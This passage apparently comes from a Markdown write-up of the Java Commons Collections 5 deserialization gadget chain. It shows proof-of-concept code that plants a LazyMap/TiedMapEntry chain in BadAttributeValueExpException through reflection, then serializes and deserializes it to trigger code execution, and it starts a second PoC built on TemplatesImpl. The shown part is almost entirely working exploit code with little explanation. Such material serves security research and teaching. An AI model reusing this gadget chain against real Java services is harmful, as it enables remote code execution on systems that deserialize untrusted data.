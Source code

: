 ```java

        Map hashMap = new HashMap();
        Map map = LazyMap.decorate(hashMap, chainedTransformer);
        TiedMapEntry tiedMapEntry = new TiedMapEntry(map, "h3rmesk1t");

        BadAttributeValueExpException badAttributeValueExpException = new BadAttributeValueExpException("h3rmesk1t");
        Class _class = Class.forName("javax.management.BadAttributeValueExpException");
        Field field = _class.getDeclaredField("val");
        field.setAccessible(true);
        field.set(badAttributeValueExpException, tiedMapEntry);

        try {
            // Serialization
            ByteArrayOutputStream byteArrayOutputStream = new ByteArrayOutputStream();
            ObjectOutputStream objectOutputStream = new ObjectOutputStream(byteArrayOutputStream);
            objectOutputStream.writeObject(badAttributeValueExpException);
            objectOutputStream.close();

            // Deserialization
            ObjectInputStream objectInputStream = new ObjectInputStream(new ByteArrayInputStream(byteArrayOutputStream.toByteArray()));
            objectInputStream.readObject();
            objectInputStream.close();
        } catch (Exception e) {
            e.printStackTrace();
        }
    }

    public static void main(String[] args) {
        try {
            CC5();
        } catch (Exception e) {
            e.printStackTrace();
        }
    }
}
```
<img src="./images/15.png" alt="">

## POC-2

```java
package CommonsCollections5;

import com.sun.org.apache.xalan.internal.xsltc.runtime.AbstractTranslet;
import com.sun.org.apache.xalan.internal.xsltc.trax.TemplatesImpl;
import com.sun.org.apache.xalan.internal.xsltc.trax.TrAXFilter;
import com.sun.org.apache.xalan.internal.xsltc.trax.TransformerFactoryImpl;
import javassist.*;
import org.apache.commons.collections.Transformer;
import org.apache.commons.collections.functors.ChainedTransformer;
import org.apache.commons.collections.functors.ConstantTransformer;
import org.apache.commons.collections.functors.InstantiateTransformer;
import org.apache.commons.collections.keyvalue.TiedMapEntry;
import org.apache.commo
ns.collections.map.LazyMap;

import javax.management.BadAttributeValueExpException;
import javax.xml.transform.Templates;
import java.io.*;
import java.lang.reflect.Field;
```